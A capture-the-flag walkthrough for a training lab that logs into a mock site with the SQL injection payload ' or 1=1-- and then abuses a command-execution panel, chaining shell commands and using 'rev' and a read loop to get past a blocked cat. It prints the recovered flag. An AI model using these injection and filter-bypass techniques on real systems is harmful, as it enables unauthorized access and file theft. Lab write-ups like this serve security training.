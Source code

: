 *Hint: Have the username and password as ' or 1=1-- (include the apostrophe)*

## #6.1 - Log into the Avengers site. View the page source, how many lines of code are there?

Let's inject `' or 1=1--` both in the username and password fields. The request will be:

We are now connected. Press `Ctrl+U` to view the source code. Scroll to the bottom of the page and get the number of lines: `223`.

# [Task 7] Remote Code Execution and Linux

## #7.0 - Instructions

You should be logged into the Jarvis access panel! Here we can execute commands on the machine.. I wonder if we can exploit this to read files on the system.

Try executing the `ls` command to list all files in the current directory. Now try joining 2 Linux commands together to list files in the parent directory: `cd ../; ls` doing so will show a file called `flag5.txt`, we can add another command to read this file: `cd ../; ls; cat flag5.txt`

But oh-no! The cat command is disallowed! We will have to think of another Linux command we can use to read it! 

*Hint: What Linux command can read a file content in reverse?*

## #7.1 - Read the contents of `flag5.txt`

The page is executing our commands. Let's first locate where flag5.txt is:

~~~
find / -name flag5.txt 2>/dev/null
~~~

It returns:

~~~
/home/ubuntu/flag5.txt
~~~

Let's try to cat the flag:

~~~
cat /home/ubuntu/flag5.txt
~~~

which returns:

~~~
Command disallowed
~~~

Same with tail, grep, more, less, ... OK, let's find another way to dump our file:


Read the flag in reverse order and reverse the result:

~~~
rev /home/ubuntu/flag5.txt | rev
~~~

will return the flag:

~~~
d335e2d13f36558ba1e67969a1718af7
~~~

Another way is to read the flag:

~~~
while read line; do echo $line; done < /home/ubuntu/flag5.txt
~~~
